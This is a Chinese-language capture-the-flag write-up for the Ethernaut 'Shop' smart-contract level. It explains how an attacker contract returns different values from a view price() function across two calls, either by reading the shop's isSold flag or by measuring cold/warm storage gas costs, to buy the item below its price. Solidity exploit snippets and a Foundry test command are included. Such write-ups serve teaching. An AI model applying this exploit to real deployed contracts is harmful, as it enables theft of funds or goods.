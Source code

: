 # Shop

## 题目描述

[原题链接](https://ethernaut.openzeppelin.com/level/0xCb1c7A4Dee224bac0B47d0bE7bb334bac235F842)

以低于要求的价格从商店买到商品.

## 运行

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境后，于本项目下执行下列命令：

```sh
$ cd WTF-CTF

$ forge test -C src/Ethernaut/Shop -vvvvv
```

## 功能简述

只要两次调用price的结果不同即可。view函数不能修改变量，只能读取变量。但如果某一变量进行了改变，view函数是不会检查的

```solidity
function buy() public {
	Buyer _buyer = Buyer(msg.sender);

	if (_buyer.price() >= price && !isSold) {
		isSold = true;
		price = _buyer.price();
	}
}
```

`Shop合约`的`buy函数`在两次`price()`调用中改变了`isSold`的值，所以我们可以通过`isSold`的具体值而返回不同的价格以使用更低的价格购买。

```solidity
function price() external view returns (uint256) {
	if (Shop(shop).isSold()) {
		return 0;
	} else {
		return 200;
	}
}
```



sload操作码会根据插槽的冷暖收取不同的gas值。

> If the accessed address is warm, the dynamic cost is 100. Otherwise the dynamic cost is 2100. See section [access sets](https://www.evm.codes/about).

```solidity
function price() external view returns (uint256) {
	uint256 gasleftBefore = gasleft();
	justcostGas + 1;
	if (gasleftBefore - gasleft() >= 2000) {
		return 200;
	} else {
		return 0;
	}
}
```

